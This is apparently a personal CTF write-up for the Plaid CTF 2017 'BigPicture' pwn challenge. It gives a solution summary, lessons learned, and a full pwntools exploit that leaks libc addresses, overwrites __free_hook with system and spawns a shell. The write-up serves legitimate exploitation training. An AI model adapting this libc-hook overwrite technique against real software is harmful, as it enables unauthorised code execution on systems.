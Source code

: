 ```yaml
---
title: "BigPicture | Plaid CTF 2017"
categories: ["pwn"]
tags: ["stack overflow"]
Points: 200
Solves: 67
---
```


I wasn't able to solve this challenge during the CTF, but I decided read a writeup and try again! In this post I'll share what I learned.

## Solution summary

I based my exploit on this [bigpicture writeup](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up). The write up explains everything in more detail, go read it!

The exploit steps were:
1. Find the `libc offset` in relation to our buffer
2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to somewhere else in the libc (I used `__memalign_hook`)
3. Overwrite `__free_hook` with a pointer to `system`
4. Write `"/bin/sh\x00"` in the buffer (since the free is going to be called on that buffer)
5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell


## What I learned for the next CTF
1. If we allocate a large enough chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing you to find where the libc is in relation to the chunk allocated.
2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
3. As I had previously learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them

# Exploit
```python
#!/usr/bin/python
from pwn import *

TESTING_LOCAL = True

if TESTING_LOCAL:
    # Libc offsets
    __memalign_hook_OFFSET = 0x398ae0
    __free_hook_OFFSET     = 0x39a788
    SYSTEM_OFFSET          = 0x3f460

    # Ofsets related to the buffer
    LIBC_OFFSET_TO_BUF = -0x497010
    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
else:
    pass

def go():
    if TESTING_LOCAL == True:
        p = process("./bigpicture")
    else:
        p = remote("bigpicture.chal.pwning.xxx", 420)

    WIDTH  = 1024
    HEIGHT = 1024
    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))

    def get_val(offset):
        return [offset/HEIGHT, offset%HEIGHT]

    def plot(x, y, c):
        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )

    def leak_byte(offset):
        val = get_val(offset)
        plot(val[0], val[1], "\x00")
        res = p.recvuntil("\n", timeout = 2)
        if "overwriting" not in res:
            return "\x00"
        else:
            return res.split("overwriting ")[1].split("!")[0]

    def write_byte(offset, c):
        val = get_val(offset)
        plot(val[0], val[1], c)

    # Check if the offset is write, by checking whether we find the string "ELF" at that location
    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
    assert check_if_we_got_libc == "ELF"
    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))

    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET

    # Leak meamallign_hook content so we can locate the LIBC_BASE
    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
    log.success("Found libc base at " + hex(LIBC_BASE))

    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))

    # Ovewrite the __free_hook with system and confirm it worked
    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])

    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
    assert leaked_free_hook == SYSTEM_ADDR
    log.success("Successfully written free_hook with system's addr")

    for i, c in enumerate("/bin/sh"):
        write_byte(i, c)

    p.sendline("quit")
    p.clean()
    p.sendline("echo HELLO")
    assert p.recvuntil("HELLO") == "HELLO"
    log.success("We got a shell ;)!")

    p.interactive()

go()
```